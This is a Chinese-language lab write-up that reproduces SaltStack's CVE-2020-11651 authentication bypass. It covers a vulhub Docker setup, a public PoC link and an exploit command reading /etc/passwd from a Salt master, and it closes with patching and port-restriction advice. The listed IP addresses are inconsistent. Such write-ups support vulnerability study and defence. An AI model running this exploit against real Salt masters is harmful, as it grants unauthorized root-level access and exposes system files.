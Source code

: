 

## 0x01 简介

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。

## 0x02 漏洞概述

在 CVE-2020-11651 认证绕过漏洞中，攻击者通过构造恶意请求，可以绕过 Salt Master 的验证逻辑，调用相关未授权函数功能，从而可以造成远程命令执行漏洞：

ClearFuncs类会处理非认证的请求和暴露_send_pub()方法，可以用来直接在master publish服务器上对消息进行排队。这些消息可以用来触发minion来以root权限运行任意命令。

ClearFuncs类还会暴露  _prep_auth_info()方法，该方法会返回用来认证master服务器上本地root用户的命令的root key。然后root  key就可以远程调用master 服务器的管理命令。这种无意的暴露提供给远程非认证的攻击者对salt  master的与root权限等价的访问权限。

## 0x03 影响版本

	SaltStack < 2019.2.4
 	SaltStack < 3000.2

## 0x04 环境搭建

直接使用vulhub进行搭建
 git clone https://github.com/vulhub/vulhub.git
 cd /vulhub/saltstack/CVE-2020-11651/
 docker-compose up -d
 ![img](SaltStack认证绕过漏洞-CVE-2020-11651.assets/1520431-20200522094423493-653404593.png)

查看环境是否启动docker ps
 ![img](SaltStack认证绕过漏洞-CVE-2020-11651.assets/1520431-20200522094429483-1118508094.png)

## 0x05 漏洞复现

Poc：
 https://github.com/jasperla/CVE-2020-11651-poc
 ![img](SaltStack认证绕过漏洞-CVE-2020-11651.assets/1520431-20200522094441966-1830651484.png)

执行前需要安装salt库，需指定salt库版本

pip3 install salt==2019.2.3
 ![img](SaltStack认证绕过漏洞-CVE-2020-11651.assets/1520431-20200522094450629-1630240382.png)

靶机ip：192.168.10.113
 攻击机ip：192.168.10.113

读取文件：
 python3 exploit.py --master 192.168.232.170 -r /etc/passwd

![img](SaltStack认证绕过漏洞-CVE-2020-11651.assets/1520431-20200522094502240-1969127201.png)

0x06 修复方式

1、SaltStack官方已发布最新版本修复此漏洞，建议相关用户及时更新至安全版本及其以上，并开启SaltStack自动更新，以便实时获取补丁或升级至安全版本：https://repo.saltstack.com/
 2、禁止将Salt Master默认监听端口（4505、4506）向公网开放，并设置为仅对可信对象开放。
